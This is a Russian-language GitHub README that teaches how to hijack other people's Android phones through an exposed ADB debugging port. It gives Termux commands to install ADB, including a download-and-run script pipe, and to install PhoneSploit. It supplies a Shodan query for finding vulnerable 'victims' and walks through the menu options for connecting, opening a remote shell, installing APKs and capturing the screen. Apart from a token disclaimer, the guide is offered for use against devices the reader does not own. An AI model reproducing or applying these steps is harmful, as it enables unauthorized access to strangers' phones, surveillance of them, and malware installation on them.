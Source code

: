 ### android-hack-for-ip_TERMUX

# !!!ВНИМАНИЕ!!!
## Автор данной статьи не несе отвествености за любите действия ВЗЛОМА все создано ТОЛЬКО в ознакомительных целях.

Adb - это консольное приложения для компьютера, с помощью которого производится откладка андроид устройств и позволяет управлять ими.
Как известно android debug bridge прослушивается на порту 5555, поэтому мы можем получить доступ к жертве с открытым портом. Поможет нам в этом утилита под названием phonesploit. Данную утилиту можно установить в линукс, даже в виндовс практически без проблем, а вот в термукс придется постараться чуть по больше)

1.Установка

Первым делом мы обновляем пакеты термукс, и устанавливаем гит:

pkg update

pkg upgrade

pkg install git

#### Далее мы устанавливаем ADB , делается это с помощью скрипта :

apt update > /dev/null 2>&1 && apt --assume-yes install wget > /dev/null 2>&1 && wget https://github.com/MasterDevX/Termux-ADB/raw/master/InstallTools.sh -q && bash InstallTools.sh

#### Теперь мы возвращаемся в домашнюю директорию, командой:

cd 

---

#### Теперь мы приступаем к установке самого Phonesploit :

git clone https://github.com/cyberknight777/PhoneSploit

cd PhoneSploit

bash termux.sh

Отлично, мы установили данную утилиту, теперь перейдём к использованию.
2.Использование.
Первое о чём бы я хотел поговорить, так это о том где же можно взять ip адреса с такой уязвимостью? Ответ очень прост - shodan.

---

Shodan - это поисковая система, которая позволяет пользователю находить компьютеры и устройства, используя определенные фильтры. 
Первым делом там необходимо зарегистрироваться, это делается очень просто, так что сами разберетесь)
После того как вы зарегистрируетесь, вам необходимо в поиск вписать такой запрос :
android debug bridge product:”Android Debug Bridge”
Этот запрос найдет утройства имеющие такую уязвимость, как adb. 
Теперь можно перейти к нашему скрипту, для его запуска потребуются следующие команды :

cd $HOME

cd PhoneSploit 

python2 main_linux.py

Нас встречает такое меню, первым делом нам необходимо подключиться к жертве, для этого мы выбираем пункт:

[3]Connect a new phone

#### После удачного подключения, мы можем использовать любой пункт данного меню, соответствено в пределе разумного, ведь не забывайте про дисклеймер)
#### Останавливаться на каждом пункте мы не будем, ибо это у нас займет много времени, тут все предельно ясно - если перевести на русский. Обращу внимание на пункты:

 [4]. Access Shell on a phone - этот пункт позволяет открыть нам терминал shell и управлять устройством.  

[5]. Install an apk on a phone - этот пункт позволяет установить нам апк файл на устройство жертвы. (давайте поработайте фантазией)

[6,7]. Screenshot/record a phone - позволяет сделать снимок экрана, или записать короткое видео экрана. 

На этом я закончу. Еще раз хочу напомнить, что думайте о последствиях своих действий, спасибо за внимание)

###### By DeplayGo - Spike YT
###### By mishakorzhik
